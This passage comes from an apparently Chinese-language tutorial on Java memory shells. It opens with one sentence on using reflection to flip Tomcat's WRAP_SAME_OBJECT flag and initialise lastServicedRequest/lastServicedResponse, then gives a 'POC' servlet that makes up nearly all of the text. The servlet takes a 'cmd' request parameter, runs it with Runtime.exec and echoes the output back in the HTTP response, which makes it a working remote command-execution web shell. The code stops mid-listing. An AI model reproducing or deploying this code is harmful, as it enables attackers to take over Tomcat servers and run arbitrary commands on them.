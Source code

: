 ## 反射构造回显

所以接下来的目标就是通过反射修改 WRAP\_SAME\_OBJECT 的值为 true，同时初始化 lastServicedRequest 和 lastServicedResponse

POC：

```plain
package memoryshell.UnserShell;

import org.apache.catalina.core.ApplicationFilterChain;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;


public class getRequest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp){
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);

            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;

            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null,new ThreadLocal());
                lastServicedResponseField.set(null,new ThreadLocal());
            } else if (cmd!=null){
                InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    lastServicedResponse.get().getWriter().println(outputStream.toString());
                }
            }
```